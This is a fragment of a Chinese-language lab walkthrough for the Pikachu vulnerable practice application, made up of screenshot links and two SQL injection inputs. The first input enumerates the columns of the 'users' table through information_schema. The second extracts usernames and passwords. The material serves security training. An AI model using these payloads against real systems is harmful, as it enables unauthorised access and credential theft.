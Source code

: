 ![image](../../../../assets/img/安全/实验/Misc/pikachu/32.png)

获取字段名,输入:`a'union select table_name,column_name,2 from information_schema.columns where table_name='users'#%`

![image](../../../../assets/img/安全/实验/Misc/pikachu/33.png)

获取数据,输入:`a'union select username ,password,4 from users#%`

![image](../../../../assets/img/安全/实验/Misc/pikachu/34.png)
